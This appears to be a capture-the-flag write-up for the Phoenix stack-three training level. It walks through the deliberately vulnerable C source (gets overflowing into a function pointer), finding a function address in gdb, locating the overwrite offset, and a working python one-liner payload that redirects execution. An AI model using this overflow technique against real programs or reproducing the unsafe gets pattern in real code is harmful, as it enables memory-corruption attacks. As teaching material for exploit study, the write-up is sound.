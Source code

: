 ```yaml
---
title: Phoenix Stack-Three
published: true
---
```


### 0x0. Introduction
For a full introduction to this series and setup description please look at the first post (Phoenix Stack-Zero and One).
In this level we have to use yet another buffer-overflow change the Function-pointer to call a specific function. This is 
still a very basic level but it gives an introduction to the more complex capabilities of buffer-overflows.

### 0x1. Taking a look at the source code

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

Our goal here is to execute the function "complete_level()". The function pointer gets set to "NULL" and then it is our old friend "gets" again.
In case you have not read the last Posts on this series, gets is a very old c function that should never be used since it doesn't implement any 
security checks whatsoever. There are better alternatives nowadays like "fgets".

```c
locals.fp = NULL;
gets(locals.buffer)
```


### 0x2 Exploiting the program

The first thing we need is the address of "complete_level()". Since we know the name of the function we can just disassemble it and thus get its address:

```
(gdb) disassemble complete_level 
Dump of assembler code for function complete_level:
   0x000000000040069d <+0>:	push   rbp
   0x000000000040069e <+1>:	mov    rbp,rsp
   0x00000000004006a1 <+4>:	mov    edi,0x400790
   0x00000000004006a6 <+9>:	call   0x4004f0 <puts@plt>
   0x00000000004006ab <+14>:	mov    edi,0x0
   0x00000000004006b0 <+19>:	call   0x400510 <exit@plt>
End of assembler dump.
```

So now we know that we need to write "0x000000000040069d" to the function pointer, or "40069d" since leading zeros don't matter.  
Then we need, yet again, to craft some input that will tell us when exactly we start to write into the function_pointer. As always im going to use the alphabet for that.

```
Welcome to phoenix/stack-three, brought to you by https://exploit.education
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZ
calling function pointer @ 0x5252525251515151

Program received signal SIGSEGV, Segmentation fault.
0x5252525251515151 in ?? ()
```

Now we know that we will write into the function pointer at Q and R (because 0x52 corresponds to R and 0x51 corresponds to Q).
The easiest way that I know to input the correct function address is to simply decode it with python.

```
user@phoenix-amd64:~$ python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP" + ("9d06400000000000").decode("hex")' |  /opt/phoenix/amd64/stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

Keep in Mind that you have to use 9d06400000000000 and not 000000000040069d because phoenix is little endian, which means we read byte-by-byte from right to left.
